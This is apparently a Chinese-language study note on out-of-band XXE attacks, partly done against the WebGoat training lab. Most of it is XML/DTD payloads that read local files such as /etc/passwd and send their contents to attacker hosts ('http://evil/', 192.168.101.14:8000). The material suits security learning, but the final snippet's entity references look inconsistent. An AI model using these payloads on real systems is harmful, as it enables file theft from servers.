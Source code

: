 ```xml
<!-- 引用的dtd -->
<!ENTITY % xxe SYSTEM "php://filter/read=convert.base64-encode/resource=target.txt">
<!ENTITY % dtd "<!ENTITY send SYSTEM 'http://evil/?%xxe;'>">
%dtd;
```

* 最终结果来看，我们的目的是要发起请求http://evil/?想要读取的内容

* 想要读取的内容就是php://filter/read=convert.base64-encode/resource=target.txt，target是我们想要读取的文件内容，这里默认目标主机是php语言，采用了php的xml外部实体引用所支持的php伪协议，伪协议中的convert.base64-encode/resource是对目标文件进行base64编码，防止出现预定义字符而解析出错（这里也可采用下面的方法防止出现预定义字符）

* 其他常用payload
  
  ```java
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % xxe SYSTEM "file:///etc/passwd">
  <!ENTITY % end "]]>">
  <!ENTITY % evil "%start;%xxe;%end;">
  <!ENTITY % dtd "<!ENTITY send SYSTEM 'https://evil?%evil;'>">
  %dtd;
  ```

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "http://192.168.101.14:8000/attack_local.dtd">
%dtd;
%print;
%send;
]>
<comment>  <text>cute</text></comment>


<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "file:///C:/Users/Administrator/.webgoat-8.1.0//XXE/secret.txt">
<!ENTITY % print "<!ENTITY &#37; send SYSTEM 'http://192.168.101.14:8000/landing?text=%file;'>">
```

#### 要包含的目标文件有预定义字符

```xml
<!DOCTYPE root [
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % xxe SYSTEM "file:\\\d:\test.txt">
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "DTD url">
]>

<root>&evil;</root>
```

```xml
<!-- 引用的dtd -->
<!ENTITY evil "%start;%xxe;%end;">
```
